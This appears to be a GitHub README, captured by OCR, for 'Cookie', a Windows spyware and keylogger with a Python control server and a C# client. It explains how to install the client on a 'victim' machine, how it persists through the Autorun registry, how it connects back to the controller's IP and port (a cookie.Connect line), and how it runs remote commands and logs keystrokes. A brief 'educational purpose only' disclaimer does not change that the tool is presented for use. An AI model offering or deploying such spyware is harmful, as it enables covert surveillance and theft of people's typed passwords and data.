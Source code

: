 # __Cookie__:cookie:
>Cookie is a Spyware created for educationl purpose only so use this only in a protected and authorized environment.

# What does it do?
It's a spyware so... spy! It can do every thing through the __cmd__ (it works only on Windows), and it is also a __keylogger__ so it can read what the victim is typing on his keyboard.

# How is it structred?
>Cookie_Client
>>Cookie_Server

- The Cookie Server is the scrpit Python, this is the script that you have to use for controlling the victim machine;

You can use it on your mobile phone (use QPython) or in your computers. You have to set only the IP, the victim has to be in your LAN or you have to use a forward port. The default port is [7373]

- The Cookie Client is the C# service; You have to change the IP and the default port to your ip:

>cookie.Connect("127.0.0.1",7373);

You must install it on victim machine and in some way (there are a lot of ways) start it, then it writes it self in the Autorun registry.
Then it will search for Cookie Server.


